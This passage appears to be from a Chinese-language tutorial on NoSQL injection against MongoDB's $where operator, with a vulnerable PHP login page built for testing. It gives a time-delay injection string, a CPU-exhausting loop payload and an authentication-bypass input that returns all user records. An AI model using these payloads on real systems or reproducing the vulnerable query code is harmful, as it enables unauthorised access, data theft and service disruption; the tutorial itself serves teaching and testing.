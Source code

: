 ```sql
db.users.find({ $where: "function(){return(this.username == $userData)}" })
```

然后，攻击者可能会注入一种恶意的字符串如 `'a'; sleep(5000)` ，此时 MongoDB 执行的查询语句为：

```sql
db.users.find({ $where: "function(){return(this.username == 'a'; sleep(5000))}" })
```

如果此时服务器有 5 秒钟的延迟则说明注入成功。

此外还有一个类似于 DOS 攻击的方式，可以让服务器 CPU 飙升到 100% 持续 5 秒：

```sql
db.users.find({ $where: "(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();" })
```

下面我们编写 index.php 进行测试：

```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL | E_STRICT);

$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    '$where' => "function() {if(this.username == '".$username."' && this.password == '".$password."') {return true;}}"
));
$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count>0) {
    foreach ($result as $user) {
        $user=(array)$user;
        echo '====Login Success====<br>';
        echo 'username: '.$user['username']."<br>";
        echo 'password: '.$user['password']."<br>";
    }
}
else{
    echo 'Login Failed';
}
?>
```

如果此时我们发送以下这几种数据，便可以构造出相当于万能密码的效果：

```js
username='||1) {return true;}})//&password=123456
```

如下图所示，成功查出所有的用户信息：
